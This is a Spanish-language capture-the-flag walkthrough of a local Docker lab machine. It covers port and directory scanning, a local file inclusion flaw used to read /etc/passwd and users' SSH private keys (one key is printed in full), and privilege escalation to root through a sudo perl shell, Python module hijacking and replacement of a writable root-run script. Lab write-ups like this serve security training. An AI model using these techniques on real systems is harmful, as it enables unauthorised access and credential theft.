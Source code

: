 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh psycho.tar
```

![Pasted image 20250214193646](https://github.com/user-attachments/assets/591a3e46-0bd3-48b7-87ce-a50422d978b2)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250214193659](https://github.com/user-attachments/assets/20d033dd-b52d-44c2-9e65-20088e1fa43d)

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250215104510](https://github.com/user-attachments/assets/b0fcf0c5-b6cd-4411-bd2f-e4d2f35c0aa1)

Nos metemos en la web:

![Pasted image 20250215105315](https://github.com/user-attachments/assets/c0a493a1-f828-4c32-b3f5-1864deca288b)

Vemos que hay un código de error [!] ERROR [!].

Seguimos navegando:

![Pasted image 20250215105255](https://github.com/user-attachments/assets/e3d0f12b-69a2-47f1-b4e8-e664d74291ad)

![Pasted image 20250215105332](https://github.com/user-attachments/assets/61195fa6-3afc-4bc1-b689-b9ce485052aa)

Descargamos la imagen:

```Bash
curl --output background.jpg http://172.17.0.2/assets/background.jpg 
```

![Pasted image 20250215105237](https://github.com/user-attachments/assets/8e850768-31df-409a-9634-42d365482cbc)

No hay nada.

Seguimos haciendo **Fuzzing** para ver si encontramos un parámetro:

```Bash
wfuzz -c --hc 404 --hw 169 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt http://172.17.0.2/index.php?FUZZ=/etc/passwd
```

![Pasted image 20250215164634](https://github.com/user-attachments/assets/4b8fb235-04a3-46a0-856f-c9044076a50d)

Probamos si podemos ver los archivos:

```Bash
curl "http://172.17.0.2/index.php?secret=/etc/passwd" | grep sh$
```

![Pasted image 20250215113654](https://github.com/user-attachments/assets/a59ea1ae-32a6-45d9-a503-a1f8f1bf5c64)

Buscamos una clave id_rsa de los usuarios:

```Bash
curl "http://172.17.0.2/index.php?secret=/home/luisillo/.ssh/id_rsa" | sed '/<!DOCTYPE html>/,/<\/html>/d'
```

![Pasted image 20250215115454](https://github.com/user-attachments/assets/a85279a3-294d-46bf-8b68-6a1cb5077b94)

```Bash
curl "http://172.17.0.2/index.php?secret=/home/vaxei/.ssh/id_rsa" | sed '/<!DOCTYPE html>/,/<\/html>/d'
```

![Pasted image 20250215115520](https://github.com/user-attachments/assets/bd52e312-ad56-433b-871c-b94f268b533f)

```Bash
nano id_rsa
```

![Pasted image 20250215115545](https://github.com/user-attachments/assets/4c866705-d773-4bdf-a42f-9e079a515105)

```Bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvbN4ZOaACG0wA5LY+2RlPpTmBl0vBVufshHnzIzQIiBSgZUED5Dk
2LxNBdzStQBAx6ZMsD+jUCU02DUfOW0A7BQUrP/PqrZ+LaGgeBNcVZwyfaJlvHJy2MLVZ3
tmrnPURYCEcQ+4aGoGye4ozgao+FdJElH31t10VYaPX+bZX+bSxYrn6vQp2Djbl/moXtWF
ACgDeJGuYJIdYBGhh63+E+hcPmZgMvXDxH8o6vgCFirXInxs3O03H2kB1LwWVY9ZFdlEh8
t3QrmU6SZh/p3c2L1no+4eyvC2VCtuF23269ceSVCqkKzP9svKe7VCqH9fYRWr7sssuQqa
OZr8OVzpk7KE0A4ck4kAQLimmUzpOltDnP8Ay8lHAnRMzuXJJCtlaF5R58A2ngETkBjDMM
2fftTd/dPkOAIFe2p+lqrQlw9tFlPk7dPbmhVsM1CN+DkY5D5XDeUnzICxKHCsc+/f/cmA
UafMqBMHtB1lucsW/Tw2757qp49+XEmic3qBWes1AAAFiGAU0eRgFNHkAAAAB3NzaC1yc2
EAAAGBAL2zeGTmgAhtMAOS2PtkZT6U5gZdLwVbn7IR58yM0CIgUoGVBA+Q5Ni8TQXc0rUA
QMemTLA/o1AlNNg1HzltAOwUFKz/z6q2fi2hoHgTXFWcMn2iZbxyctjC1Wd7Zq5z1EWAhH
EPuGhqBsnuKM4GqPhXSRJR99bddFWGj1/m2V/m0sWK5+r0Kdg425f5qF7VhQAoA3iRrmCS
HWARoYet/hPoXD5mYDL1w8R/KOr4AhYq1yJ8bNztNx9pAdS8FlWPWRXZRIfLd0K5lOkmYf
6d3Ni9Z6PuHsrwtlQrbhdt9uvXHklQqpCsz/bLynu1Qqh/X2EVq+7LLLkKmjma/Dlc6ZOy
hNAOHJOJAEC4pplM6TpbQ5z/AMvJRwJ0TM7lySQrZWheUefANp4BE5AYwzDNn37U3f3T5D
gCBXtqfpaq0JcPbRZT5O3T25oVbDNQjfg5GOQ+Vw3lJ8yAsShwrHPv3/3JgFGnzKgTB7Qd
ZbnLFv08Nu+e6qePflxJonN6gVnrNQAAAAMBAAEAAAGADK57QsTf/priBf3NUJz+YbJ4NX
5e6YJIXjyb3OJK+wUNzvOEdnqZZIh4s7F2n+VY70qFlOtkLQmXtfPIgcEbjyyr0dbgw0j4
4sRhIwspoIrVG0NTKXJojWdqTG/aRkOgXKxsmNb+snLoFPFoEUHZDjpePFcgyjXlaYmZ0G
+bzNv0RNgg4eWZszE13jvb5B8XtDzN4pkGlGvK1+8bInlguLmktQKItXoVhhokGkp4b+fu
7YjDiaS4CyWsxX50wG/ZMgYBwFLRbCDUUdKZxsmCbreHxLKT/sae64E2ahuBSckYZlIzTd
2lp27EOOPvdPlt9gny83JuFHBLChMd4sHq/oU8vGAiGnIvOCWs4wMArbpJQ+EALJk3GYvh
oqWp3Q4N4F1tmwlrbqX2KP2T5yB+rLoBxfJwLELZlzd+O8mfP9Yknaw2vVYpUixUglNWHJ
ZnmN1uAScPAd1ZNvIkPm6IPcThj1hVCkFXgWjQn6NdJj+NGNWcBeUrxBkH0vToD7gfAAAA
wQCvSzmVYSxpX3b9SgH+sHH5YmOXR9GSc8hErWMDT9glzcaeEVB3O2iH/T+JrtUlm4PXiP
kwFc5ZHHZTw2dd0X4VpE02JsfkgwTEyqWRMcZHTK19Pry2zskVmu6F94sOcN8154LeQBNx
gT22Dr/KJA71HkOH7TyeGnlsmBtZoa3sqp3co9inkccnhm1KUeduL4RcSysDqXYbBUtNB6
G1l8HYysm8ISCsoR4KSgxmC5lqCMfBy7z/6nOX7sm5/kP+JMsAAADBAO8TiHrYTl/kGsPM
ITaekvQUJWCp+FCHK07jwzNp4buYAnO3iGvhVQpcS7UboD8/mve207e97ugK4Nqc68SzSu
bDgAnd4FF3NLoXP/qPZPaPS1FRl0pY0jHyB+U6RELgaI34i9AierMc+4M0coUMZvxqay3o
t8jRhz08jiwFifszwNN7taclmNEfkrKBY7nlbxFRd2XLjknZHFUOFzOFWdtXilQa+y6qJ6
lKtE9KWnQgIgZB9Wt+M3lsEVWEdQKN1wAAAMEAyyEsmbLUzkBLMlu6P4+6sUq8f68eP3Ad
bJltoqUjEYwe9KOf07G15W2nwbE/9WeaI1DcSDpZbuOwFBBYlmijeHVAQtJWJgZcpsOyy2
1+JS40QbCBg+3ZcD5NX75S43WvnF+t2tN0S6aWCEqCUPyb4SSQXKi4QBKOMN8eC5XWf/aQ
aNrKPo4BygXUcJCAHRZ77etVNQY9VqdwvI5s0nrTexbHM9Rz6O8T+7qWgsg2DEcTv+dBUo
1w8tlJUw1y+rXTAAAAEnZheGVpQDIzMWRlMDI2NmZmZA==
-----END OPENSSH PRIVATE KEY-----
```

![Pasted image 20250215115631](https://github.com/user-attachments/assets/4a640d19-3b36-421e-b4fc-f5b99ec86fb8)

```Bash
chmod 600 id_rsa
```

![Pasted image 20250215115942](https://github.com/user-attachments/assets/c1475dc8-e4a8-47e6-9daa-529d7d9d4172)

Nos conectamos con **SSH**:

```Bash
ssh -i id_rsa vaxei@172.17.0.2
```

![Pasted image 20250215115959](https://github.com/user-attachments/assets/0a845d0f-f6c5-4654-9123-a573869749fb)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250215120026](https://github.com/user-attachments/assets/0a823529-47cb-4417-a963-3f01f495a420)

```Bash
sudo -u luisillo perl -e 'exec "/bin/bash";'
```

![Pasted image 20250215120333](https://github.com/user-attachments/assets/57a5c903-b66e-4d83-af38-7db5a973b473)

Volvemos a elevar privilegios:

```Bash
sudo -l
```

![Pasted image 20250215120401](https://github.com/user-attachments/assets/cf2d8cf6-cf74-4882-bfad-0ead7f0d10bc)

```Bash
cd /opt
```

![Pasted image 20250215120433](https://github.com/user-attachments/assets/4abb8ad1-09e8-4abb-abdf-7dfe19e6cc34)

```Bash
ls -l
```

![Pasted image 20250215120452](https://github.com/user-attachments/assets/69f9a83a-53af-4c96-81d5-94604cc4bf30)

```Bash
cat paw.py
```

![Pasted image 20250215120520](https://github.com/user-attachments/assets/91d77c30-1173-42bf-9b09-f3dd89a5f97e)

```Bash
sudo -u root /usr/bin/python3 /opt/paw.py
```

![Pasted image 20250215121030](https://github.com/user-attachments/assets/158138e6-54ec-44e8-9dd0-12842613ce86)

```Bash
nano subprocess.py
```

![Pasted image 20250215161323](https://github.com/user-attachments/assets/14a146de-8ccd-4fe3-9336-2418c67f1752)

```Python
import os
os.system("bash -p")
```

![Pasted image 20250215161358](https://github.com/user-attachments/assets/ac574222-b7c5-40bb-8082-48de7488dd59)

```Bash
sudo -u root /usr/bin/python3 /opt/paw.py
```

![Pasted image 20250215161443](https://github.com/user-attachments/assets/58098ec4-1a10-4cd7-aeed-1d4a9515a0c4)

```Bash
whoami
```

![Pasted image 20250215161518](https://github.com/user-attachments/assets/df090eab-e80f-4d09-b3fd-97154aa717e6)

Otra forma de elevar:

```Bash
ls -ld
```

![[Pasted image 20250215170211.png]]

```Bash
rm paw.py
```

![[Pasted image 20250215170419.png]]

```Bash
nano paw.py
```

![[Pasted image 20250215170702.png]]

```Python
import os
os.system("bash -p")
```

![[Pasted image 20250215170718.png]]

```Bash
chmod +x paw.py
```

![[Pasted image 20250215171002.png]]

```Bash
sudo -u root /usr/bin/python3 /opt/paw.py
```

![[Pasted image 20250215171113.png]]

```Bash
whoami
```

![[Pasted image 20250215171145.png]]

